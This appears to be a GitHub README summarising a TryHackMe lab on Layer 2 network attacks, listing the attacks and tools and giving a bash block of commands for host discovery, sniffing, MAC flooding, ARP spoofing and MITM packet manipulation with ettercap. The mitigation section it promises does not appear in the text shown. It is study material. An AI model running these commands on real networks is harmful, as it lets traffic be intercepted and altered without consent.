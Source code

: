 # Layer2-Network-Attacks   

## Overview  
This repository explores Layer 2 network attacks, including **MAC flooding**, **ARP spoofing**, and **Man-in-the-Middle (MITM) attacks**. It covers methodologies, tools used, and mitigation techniques based on practical exercises from the **TryHackMe Layer2** room.  
 
## Attacks Covered  
- **Network Discovery** – Identifying active hosts and their details.   
- **Passive Network Sniffing** – Capturing and analyzing network traffic.  
- **MAC Flooding** – Overloading a switch to force traffic broadcast.   
- **ARP Spoofing** – Redirecting traffic by poisoning ARP tables.  
- **MITM Sniffing** – Intercepting and analyzing communications.  
- **MITM Manipulation** – Modifying network packets in transit.  
 
## Tools Used   
- `Nmap` – Network scanning and host discovery  
- `Tcpdump` – Packet capture and traffic analysis  
- `Macof` – MAC flooding attack tool  
- `Ettercap` – ARP spoofing and MITM attack tool  
- `Etterfilter` – Packet filtering and manipulation tool  

## Execution Steps  

```bash
# 1. Network Discovery  
sudo ip address show dev eth1  # Check interface details  
nmap -sn <target IP range>  # Discover active hosts  

# 2. Passive Network Sniffing  
tcpdump -A -i eth1 -w /tmp/tcpdump.pcap  
wireshark /tmp/tcpdump.pcap  # Open and analyze packet capture  

# 3. MAC Flooding Attack  
macof -i eth1  # Flood switch with fake MAC addresses  

# 4. ARP Spoofing with Ettercap  
ettercap -T -i eth1 -M arp  # Execute ARP spoofing attack  

# 5. MITM Sniffing  
nmap -n <IP range>  # Discover hosts  
ettercap -T -i eth1 -M arp  # Intercept and capture network traffic  

# 6. MITM Manipulation with Etterfilter  
etterfilter <filter_file> -o <compiled_filter_file>  
ettercap -T -q -F <compiled_filter_file> -i eth1  
